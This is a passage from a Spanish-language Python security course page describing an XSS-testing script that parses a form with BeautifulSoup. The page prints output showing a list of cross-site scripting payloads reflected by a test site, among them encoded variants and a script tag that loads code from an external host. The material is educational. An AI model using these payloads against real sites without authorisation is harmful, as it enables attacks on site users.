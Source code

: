 - [Código de ejemplo](/Unidad_10_Análisis_de_vulnerabilidades_en_aplicaicones_web_con_Python/3-Script_xss.py)

    - Estamos leyendo un archivo que contiene payloads XSS y estamoa guardando estsos payloads en un array llamado `xsspayloads`. Posteriormente, usaremos la respuesta obtenida de realizar la petición al sitio web en combinación con el módulo BeautifulSoup para analizar los campos de entrada de la página del formulario.

    Resultado:

    ```bash
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload <SCRIPT>alert('XSS');</SCRIPT> returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload '';!--"<XSS>=&{()} returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload <SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT> returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload <IMG SRC="javascript:alert('XSS');"> returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload <IMG SRC=javascript:alert('XSS')> returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload <IMG SRC=JaVaScRiPt:alert('XSS')> returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload <IMG SRC=javascript:alert(&quot;XSS&quot;)> returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload <IMG SRC=`javascript:alert("RSnake says, 'XSS'")`> returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))> returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload SRC=&#10<IMG 6;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;> returned in the response
    <input name="searchFor" size="10" type="text"/>
    <input name="goButton" type="submit" value="go"/>
    Payload <IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041> returned in the response
    <input name="searchFor" size="10" type="text"/>
    ...
    ```
